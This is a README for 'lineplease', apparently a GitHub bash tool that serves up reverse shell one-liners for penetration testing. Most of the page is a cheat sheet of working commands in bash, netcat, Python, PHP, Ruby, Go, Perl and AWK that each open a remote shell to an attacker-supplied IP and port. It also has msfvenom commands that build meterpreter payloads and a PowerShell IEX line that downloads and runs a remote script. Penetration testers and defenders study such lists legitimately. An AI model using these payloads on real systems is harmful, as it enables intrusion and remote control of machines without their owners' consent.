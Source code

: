 
                      __   _____  ______
                     / /  /  _/ |/ / __/
                    / /___/ //    / _/  
         ___  __   /____/___/_/|_/___/  
        / _ \/ /  / __/ _ | / __/ __/   
       / ___/ /__/ _// __ |_\ \/ _/     
      /_/  /____/___/_/ |_/___/___/     

"You thought your secrets were safe...you..ehmm...line please!!"

# lineplease

Lineplease is a helper script (bash) designed to simplify the process of grabbing reverse shell oneliners from the web<br>
and changing them to fit whatever need.
<br>
Started out as a simple personal tool to help my own lazy self but grew into a somewhat comprehensive list of lines<br>
easily served up on the command line.<br>
Most if not all creds goes to [PayloadAlltheThings](https://github.com/swisskyrepo/PayloadsAllTheThings/blob/master/Methodology%20and%20Resources/Reverse%20Shell%20Cheatsheet.md) for the actual lines.<br>
<br>
Enjoy!
<br>
## installation
```git clone https://github.com/rub3rth/lineplease ```<br>
<br>
clipboard function requires xsel package<br>
```sudo apt-get install xsel```
# example usage
## for reverse shell line<br>
```./lineplease.sh [options] [interface] [port] ```<br><br>
example:<br>
```./lineplease.sh -b eth0 1337```<br>
<br>
ipv4-address on desired interface is inserted into line<br> 
for public ip specify interface as 'pub'<br><br>
when prompted:<br>
y to copy line to clipboard (requires xsel) or any other key to continue <br>
y to start netcat listener or any other key to exit<br>
## for msfvenom (requires msfvenom)<br>
```./lineplease.sh [options] [interface] [port] [name] ```<br><br>
example:<br>
```./lineplease.sh -m2 tun0 1337 rev```<br>
<br>
when prompted:<br> 	
y to create file or any other key to exit<br>
## options
``` 
-h 		display this page
example:	./lineplease.sh -h

OPTIONS		-----------------------------------

BASH
-b      	bash -i >& /dev/tcp/[ip]/[port] 0>&1
-be		0<&196;exec 196<>/dev/tcp/[ip]/[port]; sh <&196 >&196 2>&196
-bc     	bash -c 'bash -i >& /dev/tcp/[ip]/[port] 0>&1'

NETCAT
-n      	nc -e /bin/bash [ip] [port]
-ns		nc -e /bin/sh [ip] [port]
-nc		nc -c bash [ip] [port]

PYTHON
-py1		export RHOST="[ip]";export RPORT=[port];python -c 'import sys,socket,os,pty;s=socket.socket();s.connect((os.getenv("RHOST"),int(os.getenv("RPORT"))[os.dup2(s.fileno(),fd) for fd in (0,1,2)];pty.spawn("/bin/sh")'
-py2		python -c 'import socket,subprocess,os;s=socket.socket(socket.AF_INET,socket.SOCK_STREAM);s.connect(("[ip]",[port]));os.dup2(s.fileno(),0);os.dup2(s.fileno(),1);os.dup2(s.fileno(),2);import pty; pty.spawn("/bin/bash")' 						

PHP
-p1		php -r '$sock=fsockopen("[ip]",[port]);exec("/bin/sh -i <&3 >&3 2>&3");'
-p2		php -r '$sock=fsockopen("[ip]",[port]);shell_exec("/bin/sh -i <&3 >&3 2>&3");'
-p3		php -r '$sock=fsockopen("[ip]",[port]);`/bin/sh -i <&3 >&3 2>&3`;'
-p4		php -r '$sock=fsockopen("[ip]",[port]);system("/bin/sh -i <&3 >&3 2>&3");'
-p5		php -r '$sock=fsockopen("[ip]",[port]);passthru("/bin/sh -i <&3 >&3 2>&3");'
-p6		php -r '$sock=fsockopen("[ip]",[port]);popen("/bin/sh -i <&3 >&3 2>&3", "r");'
-p7		php -r '$sock=fsockopen("[ip]",[port]);$proc=proc_open("/bin/sh -i", array(0=>$sock, 1=>$sock, 2=>$sock),$pipes);'

RUBY
-r		ruby -rsocket -e 'exit if fork;c=TCPSocket.new("[ip]","[port]");while(cmd=c.gets);IO.popen(cmd,"r"){|io|c.print io.read}end'
-rw		ruby -rsocket -e 'c=TCPSocket.new("[ip]","[port]");while(cmd=c.gets);IO.popen(cmd,"r"){|io|c.print io.read}end'	(windows only)


GOLANG
-g		echo 'package main;import"os/exec";import"net";func main(){c,_:=net.Dial("tcp","[ip]:[port]");cmd:=exec.Command("/bin/sh");cmd.Stdin=c;cmd.Stdout=c cmd.Stderr=c;cmd.Run()}' > /tmp/t.go && go run /tmp/t.go && rm /tmp/t.go


PERL
-pe		perl -e 'use Socket;$i="[ip]";$p=[port];socket(S,PF_INET,SOCK_STREAM,getprotobyname("tcp"));if(connect(S,sockaddr_in($p,inet_aton($i))){open(STDIN,">&S");open(STDOUT,">&S");open(STDERR,">&S");exec("/bin/sh -i");};'
-pe2		perl -MIO -e '$p=fork;exit,if($p);$c=new IO::Socket::INET(PeerAddr,"[ip]:[port]");STDIN->fdopen($c,r);$~->fdopen($c,w);system$_ while<>;'			
-pw		perl -MIO -e '$c=new IO::Socket::INET(PeerAddr,"[ip]:[port]");STDIN->fdopen($c,r);$~->fdopen($c,w);system$_ while<>;'	(windows only)

AWK
-a		awk 'BEGIN {s = "/inet/tcp/0/[ip]/[port]"; while(42) { do{ printf "shell>" |& s; s |& getline c; if(c){ while ((c |& getline) > 0) print $0 |& s; close(c); } } while(c != "exit") close(s); }}' /dev/null

POWERSHELL
-ps1            too long and messy to print out here
-ps2            same goes for this one

MSFVENOM UNSTAGED
-m1 		msfvenom -p windows/shell_reverse_tcp LHOST=[ip] LPORT=[port] -f exe > [name].exe
-m2		msfvenom -p linux/x86/shell_reverse_tcp LHOST=[ip] LPORT=[port] -f elf > [name].elf
-m3     	msfvenom -p osx/x86/shell_reverse_tcp LHOST=[ip] LPORT=[port] -f macho > [name].macho
-m4		msfvenom -p java/jsp_shell_reverse_tcp LHOST=[ip] LPORT=[port] -f raw > [name].jsp
-m5		msfvenom -p java/jsp_shell_reverse_tcp LHOST=[ip] LPORT=[port] -f war > [name].war
-m6		msfvenom -p cmd/unix/reverse_python LHOST=[ip] LPORT=[port] -f raw > [name].py
-m7		msfvenom -p cmd/unix/reverse_bash LHOST=[ip] LPORT=[port] -f raw > [name].sh
-m8		msfvenom -p cmd/unix/reverse_perl LHOST=[ip] LPORT=[port] -f raw > [name].pl

MSFVENOM STAGED
-m1s    	msfvenom -p windows/meterpreter/reverse_tcp LHOST=[ip] LPORT=[port] -f exe > [name].exe
-m2s    	msfvenom -p linux/x86/meterpreter/reverse_tcp LHOST=[ip] LPORT=[port] -f elf > [name].elf
-mas    	msfvenom -p windows/meterpreter/reverse_tcp LHOST=[ip] LPORT=[port] -f asp > [name].asp
-mps		msfvenom -p php/meterpreter_reverse_tcp LHOST=[ip] LPORT=[port] -f raw > [name].php; cat [name].php | xsel --clipboard --input && echo '<?php ' | tr -d '\n' > [name].php && xsel --clipboard --output >> [name].php
                (requires xsel)

LAZY OPTIONS
-pu2		python -c 'import pty; pty.spawn("/bin/bash")'
-pu3 		python3 -c 'import pty; pty.spawn("/bin/bash")'

		loads up line for python shell upgrade

		usage:		./lineplease.sh -pu2
                when prompted:  y to copy to clipboard (requires xsel)/any other key to exit

-psd		powershell "IEX(New-Object Net.WebClient).downloadString('http://[ip]:[port]/[filename]')"

		loads up a powershell command to download the file linpeas.sh from ip address of eth0

		usage:		./lineplease.sh -psd [interface] [port] [filename]
		example:	./lineplease.sh -psd eth0 1337 linpeas.sh
		when prompted:	y to copy to clipboard (requires xsel)/any other key to continue
		when prompted:	y to start web server in current directory/any other key to exit 
```
# demo
[![asciicast](https://asciinema.org/a/wLvMj4TdDoyWSY9I3pykriZkW.svg)](https://asciinema.org/a/wLvMj4TdDoyWSY9I3pykriZkW)
